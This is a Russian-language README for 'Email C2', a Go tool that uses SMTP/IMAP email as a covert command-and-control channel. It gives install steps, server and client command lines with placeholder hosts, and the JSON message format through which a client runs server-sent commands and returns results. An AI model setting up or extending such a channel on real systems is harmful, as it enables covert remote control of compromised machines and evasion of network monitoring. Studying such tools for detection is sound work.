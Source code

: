 
# Email C2 (Command & Control)

## Описание
Email C2 - это инструмент командного управления, использующий электронную почту в качестве скрытого канала связи. Проект разработан на языке Go 
## Особенности
- Скрытая коммуникация через SMTP/IMAP протоколы
- JSON-форматированные сообщения
- Уникальные UUID для каждой сессии
- Поддержка различных почтовых серверов
- Кросс-платформенная совместимость (Windows/Linux/macOS)

## Требования
- Go 1.16 или выше
- Доступ к SMTP и IMAP серверам
- Учетные записи электронной почты для сервера и клиента

## Зависимости
```go
require (
    github.com/emersion/go-imap
    github.com/emersion/go-sasl
    github.com/google/uuid
    gopkg.in/gomail.v2
)
```

## Установка
1. Клонируйте репозиторий:
```bash
git clone [URL репозитория]
```

2. Перейдите в директорию проекта:
```bash
cd c2
```

3. Установите зависимости:
```bash
go mod download
```

## Использование

### Сервер
```bash
go run cmd/server/main.go -imap "mail.server.com:993" -smtp "mail.server.com" -email "server@example.com" -client "client@example.com" -password "server_password"
```

Параметры сервера:
- `-imap`: Адрес IMAP сервера с портом
- `-smtp`: Адрес SMTP сервера
- `-email`: Email адрес сервера
- `-client`: Email адрес клиента
- `-password`: Пароль от почтового ящика сервера

### Клиент
```bash
go run cmd/client/main.go -imap "mail.server.com:993" -smtp "mail.server.com" -email "client@example.com" -recipient "server@example.com" -password "client_password"
```

Параметры клиента:
- `-imap`: Адрес IMAP сервера с портом
- `-smtp`: Адрес SMTP сервера
- `-email`: Email адрес клиента
- `-recipient`: Email адрес сервера
- `-password`: Пароль от почтового ящика клиента

## Принцип работы
1. Клиент подключается и генерирует уникальный UUID сессии
2. Сервер отправляет команды в формате JSON
3. Клиент выполняет команды и отправляет результаты
4. Сервер получает и обрабатывает ответы

## Структура сообщений
```json
{
    "type": "command/response",
    "uuid": "уникальный-идентификатор-сессии",
    "content": "содержимое-команды-или-ответа",
    "timestamp": 1234567890
}
```

## Безопасность
⚠️ Важные замечания:
- Отсутствует дополнительное шифрование сообщений
- Проект предназначен для исследовательских целей
- Не рекомендуется использовать в проде (хотя вам решать 

## Планируемые улучшения
- Добавление end-to-end шифрования
- Улучшенная система логирования
- Поддержка конфигурационных файлов
- Расширенная обработка ошибок
- Улучшенный механизм аутентификации
- WinApi outlook а почему нет? 

## Отказ от ответственности
Данный инструмент создан исключительно в исследовательских и образовательных целях. Автор не несет ответственности за любое неправомерное использование данного программного обеспечения.



